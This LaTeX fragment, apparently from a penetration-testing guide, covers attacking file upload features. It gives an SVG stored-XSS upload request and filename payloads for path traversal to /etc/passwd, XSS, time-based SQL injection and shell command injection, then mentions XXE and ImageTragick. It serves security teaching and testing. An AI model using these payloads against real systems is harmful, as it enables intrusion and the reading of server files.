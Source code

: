 \documentclass[11pt]{article}
\begin{document}
\subsection{Exploitation without remote code execution}

\textbf{Stored XSS via HTML/SVG.} If the application allows uploading HTML or SVG files and later serves them from the same origin, a script tag inside the file executes in the context of any user who views it:
\begin{lstlisting}[language=http]
POST /upload/attachment HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="exploit.svg"
Content-Type: image/svg+xml

<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"></svg>
------WebKitFormBoundary--
\end{lstlisting}

\textbf{Filename-based injection.} The filename itself is frequently trusted and reused elsewhere (in a database record, an HTML page listing uploads, or a shell command), so it is worth testing on its own:
\begin{itemize}[leftmargin=1.4em]
    \item Path traversal: \texttt{image.png../../../../../../etc/passwd}
    \item Stored XSS via filename: \texttt{'"><img src=x onerror=alert(document.domain)>.jpg}
    \item Time-based SQL injection: \texttt{poc.js'(select*from(select(sleep(20)))a)+'.jpg}
    \item OS command injection: \texttt{file\_name; sleep 10;.jpg}
\end{itemize}

\textbf{Parser-level attacks.} If uploaded Office documents (\texttt{.docx}, \texttt{.xlsx}) or other XML-based formats are parsed server-side, this is a potential vector for XXE injection. If images are processed by libraries such as ImageMagick or FFmpeg, historical CVEs (for example the ImageTragick family) can allow command execution or arbitrary file read through crafted image/video containers.
 
\end{document}
